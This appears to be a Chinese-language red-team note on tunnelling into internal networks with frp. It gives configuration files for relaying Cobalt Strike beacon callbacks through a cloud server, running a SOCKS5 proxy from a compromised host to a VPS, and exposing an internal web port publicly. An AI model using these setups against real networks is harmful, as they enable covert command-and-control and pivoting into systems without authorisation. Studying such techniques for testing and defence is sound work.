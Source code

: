 # 内网穿透

## frp-C2上线

使用本地的kali攻击其他内网的主机，使用一台云服务器做跳板机

kali端运行cs服务端，和frp客户端，将服务端的6688端口转发到本地的5555

云服务器运行frp服务端

C2生成云服务器6688的马

上线云服务器6688端口就会转发给kali的5555

### frpc.toml

```
serverAddr = "8.***.***.***"
serverPort = 7000

[[proxies]]
name = "test-tcp"
type = "tcp"
localIP = "127.0.0.1"
localPort = 5555
remotePort = 6688
```

### frps.toml

```
bindPort = 7000
```

## frp-建立Socks5代理

被控机运行客户端，vps运行服务端，被控机将流量发往服务端的6000端口，攻击机使用vps的6000端口作为代理

建立代理的方法:

> linux：修改/etc/proxychains4.conf 
>
> socks5		8.141.\*\*.**  6000
>
> Windows：配置proxifier

### frpc.ini

```
[common]
server_addr = 8.*.*.* 
server_port = 7000      
 
[target1]               
type = tcp             
remote_port = 6000
plugin = socks5         
plugin_user = admin
plugin_passwd = admin@123

```

### frps.ini

```
[common]
bind_port = 7000
bind_addr = 0.0.0.0
# login
dashboard_port = 7500
dashboard_user = admin
dashboard_pwd = admin@123
```

### 二层代理

## frp-端口映射

将`172.22.2.31:80`映射到`8.141.95.197:6000`，访问8.141.95.197:6000就可以访问到80端口

### frpc.ini

```
[common]
server_addr = 8.141.95.197
server_port = 7000      
 
[target1]
name = "test-tcp"
type = tcp
remote_port = 6000
local_ip = 172.22.2.31
local_port = 80
```

### frps.ini

```
bindPort = 7000
```

